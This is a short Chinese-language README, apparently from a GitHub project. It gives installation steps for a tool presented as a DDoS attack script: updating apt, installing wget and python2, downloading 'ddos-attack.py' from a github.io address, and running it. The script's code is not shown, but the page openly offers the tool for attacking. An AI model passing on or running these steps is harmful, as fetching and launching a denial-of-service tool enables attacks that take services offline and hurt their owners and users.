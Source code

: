 ## 更新系统源以保证最新
```dash
sudo apt-get update
```
## 安装必要环境
```dash
sudo apt-get -y install wget python2
```
## 下载脚本
```dash
wget https://huan-Starvm.github.io/app/DDos/ddos-attack.py 
```
## 运行脚本
```dash
python2 ddos-attack.py
```

